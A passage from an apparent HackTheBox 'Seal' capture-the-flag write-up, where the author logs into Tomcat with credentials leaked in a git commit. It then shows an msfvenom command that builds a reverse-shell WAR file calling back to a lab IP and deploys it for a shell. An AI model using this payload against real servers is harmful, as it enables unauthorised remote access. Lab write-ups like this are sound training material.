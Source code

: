 ![08](/image/hackthebox/seal/08.png)

I entered the creds which I found on commit and successfully logged in as tomcat user.

<img src="/image/hackthebox/seal/09.png" alt="09" style="zoom: 50%;" />

I will just deploy malicious reverse shell war file using `msfvenom`. I used following command to create a war file.

> msfvenom -p java/shell_reverse_tcp lhost=10.10.14.120 lport=9001 -f war -o amroot.war

I will deploy the file and that gave me a reverse shell.

<img src="/image/hackthebox/seal/10.png" alt="10" style="zoom:80%;" />
